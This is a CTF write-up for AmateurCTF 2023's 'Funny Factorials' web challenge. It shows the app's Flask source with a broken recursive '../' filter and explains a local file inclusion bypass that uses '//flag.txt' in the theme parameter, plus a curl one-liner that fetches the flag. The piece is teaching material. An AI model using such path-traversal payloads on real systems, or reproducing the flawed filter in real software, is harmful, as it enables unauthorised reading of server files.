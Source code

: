 ```yaml
---
title: AmateurCTF '23 - Web - Funny Factorials
date: '2023-07-18'
tags: ['ctf', 'web', 'amateurctf', 'amateurctf23', 'writeup', 'lfi']
draft: false
summary: Utilizing LFI in the theme parameter to get the flag.
---
```


## Challenge Description

I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

Author: stuxf

Connection info: [funny-factorials.amt.rs](https://funny-factorials.amt.rs)

## Solution

Firstly, we were provided with two files. `app.py` and a `Dockerfile`

```docker:Dockerfile
FROM python:3.10-slim-buster

RUN pip3 install flask
COPY flag.txt /

WORKDIR /app
COPY app/* /app/
copy app/templates/* /app/templates/
copy app/themes/* /app/themes/

EXPOSE 5000

ENTRYPOINT ["python3", "app.py"]
```

Seeing this, we can that the flag is being stored in `/`. Let's firstly analyze the `app.py` file and try to find a bug using code analysis

```python:app.py
from flask import Flask, render_template, request
import sys

app = Flask(__name__)

def factorial(n):
    if n == 0:
        return 1
    else:
        try:
            return n * factorial(n - 1)
        except RecursionError:
            return 1

def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path

@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)

@app.route('/', methods=['POST'])
def calculate_factorial():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))

    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    try:
        num = int(request.form['number'])
        if num < 0:
            error = "Invalid input: Please enter a non-negative integer."
            return render_template('index.html', error=error, css=theme)
        result = factorial(num)
        return render_template('index.html', result=result, css=theme)
    except ValueError:
        error = "Invalid input: Please enter a non-negative integer."
        return render_template('index.html', error=error, css=theme)

if __name__ == '__main__':
    sys.setrecursionlimit(100)
    app.run(host='0.0.0.0')
```

By simply analyze the provided code, we understood the following points

- GET request to `/` along with `theme` parameter allows LFI.
- The `filter_path` function can be bypassed using two different methods.
    - Using `....//` in the payload. This is because `../` will be replaced with an empty string and we'll get the `../` back. BUT, the problem is, there is `filter_path(path)` function call. Which will keep on calling the function until we don't have ../ in the path. Which means, in order to bypass, we need to use `//`. This will bypass the `if path[0] == "/": path = path[1:]` condition as the first `/` will be removed and we'll still have `/`
- The flag exists in `/` directory

### Exploitation

Well, the payload is pretty simple, we can try and get the flag using the following two payloads:

[https://funny-factorials.amt.rs/?theme=//flag.txt](https://funny-factorials.amt.rs/?theme=//flag.txt)

Now, the problem is, we don't see the flag on the page:

![chal](/static/writeups/amateurctf2023/web/ff-1.png)

That is because, the theme is loaded into the `<style>` html tags and those aren't rendered directly. So view that, we'll see the source code

![chal](/static/writeups/amateurctf2023/web/ff-2.png)

And we get the flag! Also, we can use the following bash one-liner to get the flag

```bash
curl -sL 'https://funny-factorials.amt.rs/?theme=//flag.txt' | grep ama | tr -d ' '
```

![chal](/static/writeups/amateurctf2023/web/ff-0.png)
